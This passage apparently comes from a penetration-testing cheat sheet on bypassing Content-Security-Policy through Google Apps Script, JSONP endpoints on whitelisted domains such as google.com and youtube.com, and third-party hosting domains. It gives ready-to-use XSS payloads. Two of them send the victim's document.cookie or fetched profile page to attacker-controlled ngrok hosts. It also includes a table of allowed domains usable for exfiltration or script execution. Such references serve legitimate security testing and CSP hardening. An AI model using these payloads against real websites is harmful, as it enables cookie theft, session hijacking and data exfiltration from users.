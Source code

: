 Abusing \*.google.com/script.google.com

It's possible to abuse Google Apps Script to receive information in a page inside script.google.com. Like it's [done in this report](https://embracethered.com/blog/posts/2023/google-bard-data-exfiltration/).

### Third Party Endpoints + JSONP

```http
Content-Security-Policy: script-src 'self' https://www.google.com https://www.youtube.com; object-src 'none';
```

Scenarios like this where `script-src` is set to `self` and a particular domain which is whitelisted can be bypassed using JSONP. JSONP endpoints allow insecure callback methods which allow an attacker to perform XSS, working payload:

```markup
"><script src="https://www.google.com/complete/search?client=chrome&q=hello&callback=alert#1"></script>
"><script src="/api/jsonp?callback=(function(){window.top.location.href=`http://f6a81b32f7f7.ngrok.io/cooookie`%2bdocument.cookie;})();//"></script>
```

```html
https://www.youtube.com/oembed?callback=alert;
<script src="https://www.youtube.com/oembed?url=http://www.youtube.com/watch?v=bDOYN-6gdRE&format=json&callback=fetch(`/profile`).then(function f1(r){return r.text()}).then(function f2(txt){location.href=`https://b520-49-245-33-142.ngrok.io?`+btoa(txt)})"></script>
```

[**JSONBee**](https://github.com/zigoo0/JSONBee) **contains ready to use JSONP endpoints to CSP bypass of different websites.**

The same vulnerability will occur if the **trusted endpoint contains an Open Redirect** because if the initial endpoint is trusted, redirects are trusted.

### Third Party Abuses

As described in the [following post](https://sensepost.com/blog/2023/dress-code-the-talk/#bypasses), there are many third party domains, that might be allowed somewhere in the CSP, can be abused to either exfiltrate data or execute JavaScript code. Some of these third-parties are:

| Entity            | Allowed Domain                               | Capabilities |
| ----------------- | -------------------------------------------- | ------------ |
| Facebook          | www.facebook.com, \*.facebook.com            | Exfil        |
| Hotjar            | \*.hotjar.com, ask.hotjar.io                 | Exfil        |
| Jsdelivr          | \*.jsdelivr.com, cdn.jsdelivr.net            | Exec         |
| Amazon CloudFront | \*.cloudfront.net                            | Exfil, Exec  |
| Amazon AWS        | \*.amazonaws.com                             | Exfil, Exec  |
| Azure Websites    | \*.azurewebsites.net, \*.azurestaticapps.net | Exfil, Exec  |
| Salesforce Heroku | \*.herokuapp.com                             | Exfil, Exec  |
| Google Firebase   | \*.firebaseapp.com                           | Exfil, Exec  |
